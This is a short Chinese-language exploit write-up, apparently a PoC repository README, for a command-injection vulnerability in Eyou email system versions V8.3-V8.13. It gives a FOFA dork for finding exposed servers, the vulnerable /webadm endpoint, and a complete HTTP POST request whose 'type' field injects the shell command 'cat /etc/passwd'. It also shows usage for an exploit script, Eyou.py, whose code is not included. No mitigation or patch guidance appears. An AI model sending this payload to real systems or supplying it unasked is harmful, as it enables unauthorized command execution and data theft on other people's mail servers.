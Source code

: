 # 影响范围：
亿邮电子邮件系统V8.3-V8.13
# FOFa dork：
body="亿邮电子邮件系统"
# 漏洞复现：
登录页面：
![image](images/login.png)  
漏洞地址：/webadm/?q=moni_detail.do&action=gragh  
post包如下：  
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0

type='|cat /etc/passwd||'
```
![image](images/post.png)  
脚本使用方法：  
python3 Eyou.py [-]




